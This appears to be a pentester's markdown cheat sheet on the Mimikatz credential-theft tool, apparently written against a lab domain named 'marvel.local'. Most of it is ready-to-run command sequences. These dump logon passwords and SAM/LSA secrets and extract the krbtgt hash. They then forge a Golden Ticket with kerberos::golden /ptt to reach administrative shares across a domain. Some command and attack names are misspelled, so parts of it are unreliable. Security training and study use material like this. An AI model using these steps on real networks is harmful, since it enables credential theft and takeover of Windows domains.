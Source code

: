 ### Mimikatz
A tool used to view and steal credentials generate Kerberos tickets, and leverage attacks:
+ Dumps credentials stored in memory
+ Just a few attacks:
 + Credential Dumping
 + Pass the Hash
 + Over-Pass-the-Hash
 + Pass-the-Ticket
 + Golder Ticket
 + Silver Ticket

[Mimikatz](#https://github.com/gentilkiwi/mimikatz)
[Mimikatz wiki](#https://github.com/gentilkiwi/mimikatz/wiki)

- Credentials Dumping with Mimikatz
Run mimikatz
```
>mimikatz.exe
mimikatz # privilege::debug
```
Common commands
```
mimikatz # sekurlsa::logonpasswords
[...]
mimikatz # lsadump::sam
[...]
mimikatz # lsadump::sam /patch
[...]
mimikatz # lsadump::lsa /patch
[...]
```
- Golden Ticket Attacks
Run mimikatz
```
>mimikatz.exe
mimikatz # privilege::debug
```
Attack path
```
lsadump::lsa /inject /name:<username for example krbtgt>
```
+ We need to copy SID of the domain(In upper mimikatz result a number after domina name / <number>)
+ Copy The NTLM hash      
+ Generate Golden Ticket      
```
mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:<copied sid value> /<username krbtgt>:<copied NTLM value> /id:500 /ptt
```      
+ Open new command prompt
```
mics::cmd
```
+ Now we can open any folder in domain???????
```
>dir \\<COMPUTER_NAME>\c$
```      
